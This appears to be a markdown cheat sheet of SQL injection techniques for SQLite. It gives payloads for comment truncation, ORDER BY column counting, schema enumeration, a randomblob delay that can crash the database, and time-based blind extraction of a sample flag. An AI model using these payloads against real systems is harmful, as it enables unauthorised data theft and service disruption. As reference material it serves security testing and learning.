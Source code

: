 ## SQLite engine

* #### Database version
You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.
* ```sqlite_version()```
```
#example
select sqlite_version()
```

* #### String concatenation
You can concatenate together multiple strings to make a single string.
* ```||```
* ```CONCAT('Hello', ' ', 'World')```
```
#example
SELECT 'Hello' || ' ' || 'World';
SELECT CONCAT('Hello', ' ', 'World');
```

* #### Substring
You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string ```e```.
* ```substr('Hello World',2,1)```
```
#example
select substr(name,2,1) from demo;
```
* ### Finding the number of columns
ORDER BY is essential in SQL injection to determine the number of columns in a vulnerable query. It helps identify injectable columns for UNION SELECT attacks and can be combined with boolean or time-based techniques to extract data. This makes it a key step in structuring successful SQLi exploitation
```
#example
#Original Query
select id,name,role from users

#Identify number of columns
select id,name,role from users order by 3 -- the database engine will run it correctly, because the number of columns in the original query is 3 id, name and role

select id,name,role from users order by 4 -- the database engine will return an error, because there is not a column #4, this tell us that the original query is returning only 3 columns
```

* ### Extracts an specific row
For Blind SQL injection we have to ensures that only the first or a specific row of a query result is returned, making it useful for blind SQLi when extracting data character by character.
* ```LIMIT 1,1```
```
#example
select username from users LIMIT 1,1; -- Returns the second user
```

* #### Length
You can extract the string length, this command allow to know the length for a specific row, Note that you need to combinate it with ```order by``` or ```Limit``` command for Blind SQL injection
* ```LENGTH('hello world')```
```
#example
select LENGTH(name) from demo;
```

* #### Comments
You can use comments to truncate a query and remove the portion of the original query that follows your input.
* ```--```
* ```/* comment */```
```
#example
select username from users where username='admin' or 1=1 -- {this will be ignored}' and password='s3cr3t';
```

* #### Database list
You can list the database that exist in the sqlite server.
```
#example
#Count databases
SELECT count(name) FROM pragma_database_list;

#Recover databases name
SELECT name FROM pragma_database_list;
```

* #### Database contents
You can list the tables that exist in the database, and the columns that those tables contain.
```
#example
#Count tables
SELECT count(name) FROM sqlite_master WHERE type = 'table';

#Recover tables name
SELECT name FROM sqlite_master WHERE type = 'table';

#Count columns from table 'demo'
SELECT count(name) FROM pragma_table_info('demo');

#Recover columns from table 'demo'
SELECT name FROM pragma_table_info('demo');
```


* #### Time delays
You can cause a time delay in the database when the query is processed. This can slow down execution by generating a large random blob (it may crash SQLite)
```
SELECT length(randomblob(900000000));
```

* #### Conditional time delays
You can test a single boolean condition and trigger a time delay if the condition is true. syntax ``` select case when (<your query here>) then RANDOMBLOB(10000000) ELSE 2 end```.
```
#example
/* create table secret (id int, flag varchar(50)) */
/* insert into secret values(1, 'flag{sp34rh34d}') */

/* This recover the first row from secret table and compare the length value if is greater than 5 */
SELECT case WHEN (LENGTH((select flag from secret order by 1 LIMIT 0,1)) > 5) then RANDOMBLOB(10000000) ELSE 2 end

/* This recover the first row from secret table and compare if the first char is equal to f */
SELECT case WHEN (substr((select flag from secret order by 1 LIMIT 0,1),1,1) ='f') then RANDOMBLOB(10000000) ELSE 2 end

/* This recover the first row from secret table and compare if the first char is equal to f */
SELECT case WHEN (substr((select flag from secret order by 1 LIMIT 0,1),2,1) ='f') then RANDOMBLOB(10000000) ELSE 2 end

/* This recover the first row from secret table and compare using hex value */
SELECT case WHEN (hex(substr((select flag from secret order by 1 LIMIT 0,1),2,1)) ='6C') then RANDOMBLOB(10000000) ELSE 2 end
SELECT case WHEN (hex(substr((select flag from secret order by 1 LIMIT 0,1),3,1)) =hex('a')) then RANDOMBLOB(10000000) ELSE 2 end

```




